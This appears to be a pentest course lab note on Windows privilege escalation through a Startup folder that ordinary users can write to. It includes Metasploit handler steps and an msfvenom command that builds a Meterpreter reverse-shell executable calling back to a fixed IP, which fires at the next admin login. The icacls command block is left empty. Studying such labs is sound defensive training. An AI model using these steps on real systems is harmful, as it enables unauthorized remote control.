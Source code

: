 # ✨ Startup Applications

Startup applications in Windows are programs or scripts that automatically initiate when a user logs into the system. In the context of privilege escalation (privesc), attackers often leverage the execution of malicious code during system startup to elevate their privileges.

<figure><img src="../../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

### Overview <a href="#lecture_heading" id="lecture_heading"></a>

we are going to use a tool called icalcs.exe

#### `icacls.exe`

* **Purpose:** `icacls.exe` is a command-line utility that allows users to display and modify permissions on objects in the file system.
* **Usage:** Used for viewing or modifying ACLs, which define the permissions users and groups have on a particular file or directory.

**Access Control List (ACL):** A list associated with an object (e.g., file, directory) that specifies the permissions granted or denied to users or groups.

Access Control Lists (ACLs) are a fundamental concept in computer security, specifically in the context of operating systems like Windows. ACLs define permissions and access rights to resources, such as files, folders, or registry keys.

We are going to run this command&#x20;

```
// Some code
```

<figure><img src="../../../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

* **`icacls.exe`:** This is the executable for the command-line tool that deals with ACLs.
* **`"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`:** This is the path to the Startup folder where programs are launched automatically when a user logs in.

The BUILTIN\Users group is a default Windows security group that includes all user accounts created on the system. When Full Control permissions \<F>  are granted to this group, it means that members of the Users group have complete access and control over the specified resources, such as files, directories, or services.

{% embed url="https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/icacls" %}

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

To gain elevated privileges, head out on your Kali machine, load msfconsole and use the multi/handler:

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse\_tcp
4. In Metasploit (msf > prompt) type: set lhost \[Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run

now on another terminal generate the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.141.112 -f exe -o y.exe
```

* `-p windows/meterpreter/reverse_tcp`: Specifies the payload as a reverse TCP Meterpreter shell for Windows.
* `LHOST=10.10.141.112`: Sets the local host IP address to 10.10.141.112. This is the IP address where the reverse shell will connect back.
* `-f exe`: Specifies the output format as an executable (exe) file.
* `-o y.exe`: Defines the output file as "y.exe."

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

I then made a simple local python server and went on the windows machine to download my file in the startup folder located at :&#x20;

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`

<figure><img src="../../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Now we are going to simulate a admin login to our machie with the payload injected in the startup programs

Disconnect from the session and launch your msfconsole:

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

Then connect to the box with the TCM account&#x20;

<figure><img src="../../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

We connect to the rdesktop with admin credentials, the startup payload executes and our meterpreter session returns us a shell.
